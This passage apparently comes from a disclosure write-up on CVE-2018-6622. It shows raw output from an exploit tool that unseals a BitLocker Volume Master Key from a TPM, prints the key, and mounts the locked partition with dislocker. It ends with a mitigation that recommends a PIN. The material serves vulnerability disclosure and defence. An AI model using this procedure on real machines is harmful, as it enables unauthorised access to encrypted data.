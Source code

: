 ```
00000000  80 01 00 00 00 3a 00 00  01 7f 03 00 00 00 00 20  |.....:......... |
00000010  5f f5 9b 8f b8 7c 48 dc  43 68 60 eb a2 70 cc a2  |_....|H.Ch`..p..|
00000020  22 4e 7b b9 f0 83 ed fe  78 91 fa ed e2 b4 de 5a  |"N{.....x......Z|
00000030  00 00 00 01 00 0b 03 80  08 00                    |..........|

    [*] Output Size 10, Result: Success
00000000  80 01 00 00 00 0a 00 00  00 00                    |..........|
    [>>] Success

    [>>] Execute TPM2_Unseal... Input file tpm2_unseal.bin
Initializing Local Device TCTI Interface
    [*] Input Size 27
00000000  80 02 00 00 00 1b 00 00  01 5e 80 00 00 01 00 00  |.........^......|
00000010  00 09 03 00 00 00 00 00  00 00 00                 |...........|

    [*] Output Size 97, Result: Success
00000000  80 02 00 00 00 61 00 00  00 00 00 00 00 2e 00 2c  |.....a.........,|
00000010  2c 00 00 00 01 00 00 00  03 20 00 00 10 c7 ea 90  |,........ ......|
00000020  6d 6d a4 82 1f 96 cc 81  66 06 e9 12 fa 04 56 b3  |mm......f.....V.|
00000030  5a 5c 11 61 fc c5 aa 74  6a 23 f5 4b 00 20 34 5a  |Z\.a...tj#.K. 4Z|
00000040  8b cd 2e 22 14 3d 14 7b  dd 9b 1b 4f 38 fe 3a 44  |...".=.{...O8.:D|
00000050  54 c4 96 94 0e 41 a4 dd  4c a9 ca 76 3e 33 00 00  |T....A..L..v>3..|
00000060  00                                                |.|
    [>>] Success

Mount BitLocker-locked Partition with VMK.
    [>>] VMK = 10C7EA906D6DA4821F96CC816606E912FA0456B35A5C1161FCC5AA746A23F54B
    [>>] Create VMK data... Success
    [>>] Mount BitLocker-Locked partition(/dev/nvme0n1p4)...

Mon Dec  2 01:14:07 2019 [INFO] dislocker by Romain Coltel, v0.7.1 (compiled for Linux/x86_64)
Mon Dec  2 01:14:07 2019 [INFO] Compiled version: master:dcd6b9b
Mon Dec  2 01:14:07 2019 [INFO] Volume GUID (INFORMATION OFFSET) supported
Mon Dec  2 01:14:07 2019 [INFO] BitLocker metadata found and parsed.
Mon Dec  2 01:14:07 2019 [INFO] Used VMK file decryption method
Mon Dec  2 01:14:07 2019 [INFO] Found volume's size: 0xba7bffe00 (50059017728) bytes
Mon Dec  2 01:14:07 2019 [INFO] Running FUSE with these arguments: 
Mon Dec  2 01:14:07 2019 [INFO]   `--> 'dislocker'
Mon Dec  2 01:14:07 2019 [INFO]   `--> './windows'
```

# 4. Mitigations
The root cause of CVE-2018-6622 and related vulnerability are improper handling of an abnormal sleep case, and you can remove the vulnerability by following two options.
 - **Use Microsoft's BitLocker with a PIN**: If you use a PIN with a TPM, VMK of BitLocker cannot be extracted without PIN. 